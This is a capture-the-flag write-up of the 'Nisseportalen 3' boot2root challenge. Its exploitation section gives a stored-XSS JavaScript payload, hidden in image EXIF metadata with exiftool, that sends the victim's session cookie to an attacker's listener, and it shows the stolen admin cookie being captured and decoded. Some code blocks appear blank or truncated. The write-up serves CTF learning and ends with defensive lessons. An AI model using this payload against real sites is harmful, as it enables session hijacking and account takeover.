





+++
title = 'Nisseportalen 3'
categories = ['Boot2Root']
date = 2024-12-15T13:35:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 3

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 2](/nc3/boot2root/nisseportalen-2) and now have a foothold on the webapp.
We now have authenticated access to the webapp and therefore revisit all the previously identified pages!

### Enumeration

On /portal/list.php we can now see the previously identified images, in the billeder.txt file, being rendered.



Besides that we only have the /portal/upload.php page left to explore.

This is the part I spent the longest time on in the challenge, but ultimately I revisited the description, in which this phrase stood out to me:
"Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen."
This indicted to me that there might be some "previous projects" to check out"!
I started out scanning for subdomains, without any luck, but then started searching for previous NC3 CTFs and discovered that the previous year's CTF had these challenges!
https://blog.danniranderis.dk/2021/12/16/danish-christmas-ctf-2021-by-nc3-police-intermediary-dangerzone-1-4/
https://nissen96.github.io/CTF-writeups/writeups/2022/NC3-CTF-2022/Nissezonen.html

After a thorough readthrough of the writeups I understood that with the help of XSS, we might be able to steal a session cookie and log in as an admin!

### Exploitation

In order to achieve this, we need to Add a malicious payload to an image EXIF metadata and then upload the image to the webapp at /portal/upload.php!

In order to edit image metadata, we can use exiftool to add the payload to the image EXIF metadata

The payload we want to add to the image is:

```bash

```

With the base64 encoded malicious payload:

```bash
var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';
var my_endpoint = 'http://MY-IP:1337/cookie/' + cookies + '.jpg';
var my_img = '';
document.write(my_img);
```

The transformation of the payload to base64 and the final exiftool command to add the payload to the image:

```bash
echo "var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';var my_endpoint = 'http://10.10.51.96:1337/cookie/' + cookies + '.jpg';var my_img = '';document.write(my_img);" | base64

exiftool -comment="" hacked.jpg
```

We upload the image to the webapp and refresh the /portal/list.php page in order to execute the evaluation of our evil payload!



```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

10.10.20.207 - - [18/Dec/2024 21:58:02] "GET /hacked.jpg HTTP/1.1" 200 -
10.10.20.207 - - [18/Dec/2024 21:56:01] "GET /cookie/SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777.jpg HTTP/1.1" 404
```

With a little bit of python magic we can transform the SESSID cookie to a format that we can use to log in as an admin!

```bash
echo "SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))"

SESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777; PHPSESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777
```

And voilà, we have stolen the session cookie and can now log in as an admin and visit /portal/admin.php!



### Getting third flag

It seems a bit of final investigation is needed in order to find the third flag, but after simply testing a few commands in the input box, we get the flag and we can submit the third flag and move on to [Nisseportalen 4](/nc3/boot2root/nisseportalen-4)!





## Flag

```text
NC3{Flag3:N1553D3v_5yn32 DU_F0r7j3N3R_37_fl49}
```

## Reflections and Learnings

### Remember that CTFs may have some history!

Revisiting the challenge description proved invaluable. The reference to past projects like “Dangerzone” and “Nissezonen” hinted at a potential vulnerability to explore, which ultimately led to the discovery of an XSS attack vector by reading through old writeups from previous years NC3 CTFs!

### The Power of Cross-Site Scripting (XSS)

This challenge highlighted how XSS, often considered a low-priority vulnerability, can escalate into serious exploitation when combined with creative payloads. Injecting malicious payloads into image metadata was an innovative application of XSS, which proves why it deserves to be an OWASP top 10.

### EXIF Metadata as an Attack Vector

Using tools like exiftool to inject payloads into image metadata demonstrated how unconventional entry points, such as file metadata, can be exploited to compromise a system.

### Session Hijacking through Cookies

The successful theft of an admin session cookie using an XSS payload emphasized the critical need for secure cookie handling, including using the HttpOnly flag to prevent client-side scripts from accessing cookies!
